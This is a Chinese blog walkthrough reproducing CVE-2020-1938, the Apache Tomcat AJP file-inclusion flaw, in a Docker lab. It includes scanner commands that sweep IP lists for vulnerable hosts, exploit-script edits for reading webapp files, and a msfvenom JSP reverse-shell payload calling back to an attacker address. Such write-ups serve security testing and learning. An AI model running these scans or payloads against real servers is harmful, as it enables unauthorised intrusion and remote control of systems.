


# CVE-2020-1938 Apache Tomcat AJP 文件包含漏洞 - 那少年和狗 - 博客园

> 原文：[`www.cnblogs.com/dogecheng/p/12604489.html`](https://www.cnblogs.com/dogecheng/p/12604489.html)

## 影响版本

*   Apache Tomcat 6
*   Apache Tomcat 7 < 7.0.100
*   Apache Tomcat 8 < 8.5.51
*   Apache Tomcat 9 < 9.0.31

## 复现

### 环境准备

选取一个版本受影响的 Tomcat, 我们这里在 Docker hub 上找了一个官方 9.0.30 版本的 Tomcat 镜像来复现

```
docker pull tomcat:9.0.30-jdk8-adoptopenjdk-hotspot
```

运行容器后, 进入容器里的**/usr/local/tomcat**目录, 将 webapps.dist 下的内容复制到 webapps 目录下

```
docker run --rm -p 8009:8009 -p 8080:8080 -d tomcat:9.0.30-jdk8-adoptopenjdk-hotspot
```

访问 8080 端口，查看 Tomcat 是否正常运行



### 工具准备

访问下面的链接或在 github 上自己寻找

https://github.com/Kit4y/CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner

### 简单测试

threading-find-port-8009.py 用于找出开放 8009 端口的域名或 IP, 我们将要扫描的域名或 IP 放于 ip.txt

运行 threading-find-port-8009.py 后会生成 8009.txt, 它保存 ip.txt 中开放 8009 端口的域名/IP

```
python threading-find-port-8009.py
```

threading-CNVD-2020-10487-Tomcat-Ajp-lfi.py 从 8009.txt 中筛选出符合漏洞的 url, 放置于 vul.txt 中. 最后 vul.txt 中存在的域名即为含有漏洞的域名.

```
python threading-CNVD-2020-10487-Tomcat-Ajp-lfi.py
```

## 跨目录读取

脚本默认读取 ROOT 目录下的文件, 如果想读取 webapps 其他目录下的文件, 可以对脚本进行简单的修改

> 不可以跨目录读取/etc/passwd 等文件, 只能读取和包含 webapps 目录下的文件

修改“/asdf”就可以实现跨目录读取. 比如我们要读取 test 目录下的 test.txt

```
_,data = t.perform_request('/test/asdf',attributes=
```

在 webapps 下的创建一个 test 目录, 放上一个 test.txt 文件


## 反弹 shell

如果服务器同时存在文件上传漏洞, 则可以进一步取得 shell. 我们先修改一下脚本, 在“/asdf”后面加上“.jsp”即可

```
_,data = t.perform_request('/asdf.jsp',attributes=
```

生成 Payload, 其中 192.168.125.130 是攻击者地址

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.125.130 LPORT=4444 > shell.txt
```

设置好 payload，然后开始监听


获得 shell


## 防护建议

[`blog.nsfocus.net/cve-2020-1938/`](http://blog.nsfocus.net/cve-2020-1938/)

## 声明

本文仅用于安全自测及交流学习，请勿用于非法操作。利用本文造成的任何直接或间接后果，由使用者本人负责。

## **参考资料**

[`www.lstazl.com/tomcat%e6%96%87%e4%bb%b6%e5%8c%85%e5%90%ab%e6%bc%8f%e6%b4%9ecnvd-2020-1048/`](https://www.lstazl.com/tomcat%e6%96%87%e4%bb%b6%e5%8c%85%e5%90%ab%e6%bc%8f%e6%b4%9ecnvd-2020-1048/)

[`www.geek-by.xyz/2020/02/21/cve-2020-1938-apache-tomcat-ajp-wen-jian-bao-han-lou-dong/`](https://www.geek-by.xyz/2020/02/21/cve-2020-1938-apache-tomcat-ajp-wen-jian-bao-han-lou-dong/)